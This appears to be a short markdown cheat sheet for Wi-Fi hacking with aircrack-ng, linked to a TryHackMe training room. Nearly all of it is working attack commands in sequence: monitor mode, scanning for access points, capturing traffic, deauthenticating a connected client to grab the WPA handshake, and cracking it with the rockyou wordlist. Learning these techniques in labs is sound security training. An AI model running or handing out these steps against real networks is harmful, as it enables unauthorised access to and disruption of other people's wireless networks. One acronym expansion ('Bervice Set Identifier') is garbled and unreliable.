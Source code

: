 [Wifi Hacking 101](https://tryhackme.com/r/room/wifihacking101?ref=blog.tryhackme.com) | [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)


## setup

1. [Install Aircrack-ng](https://github.com/TurboLabIt/cybersec/blob/main/script/aircrack/install.sh)


## network interfaces

````shell
sudo airmon-ng

````

Alternative:

````shell
iw dev
iw dev wlan0 info

````


## monitor mode

the Wi-Fi interface listens to all wireless traffic on a specific channel, regardless of whether 
it is directed to the device or not.
It passively captures all network traffic within range for analysis without joining a network.

````shell
sudo airmon-ng check kill
sudo airmon-ng start wlan0

````

The interface name in monitor mode is `wlan0mon`.

Alternative:

````shell
sudo ip link set dev wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set dev wlan0 up

````


## recon

MAC == BSSID (Bervice Set Identifier)

````shell
iw dev wlan0 scan

````

Alternative:

````shell
sudo airodump-ng wlan0

````


## capture + deauth attack

Capture:

````shell
sudo airodump-ng -c <network-channel-number> --bssid <access-point-mac-address> -w output-file wifi-capture.cap wlan0

````


As soon as a client is detected (`STATION`):

````shell
sudo aireplay-ng -0 1 -a <access-point-mac-address> -c <client-to-deauth-mac-address> wlan0

````

As soon as the `WPA handshake` is captured, you can stop.


## crack

````shell
sudo aircrack-ng -a 2 -b <access-point-mac-address> -w /usr/share/wordlists/rockyou.txt *.cap

````
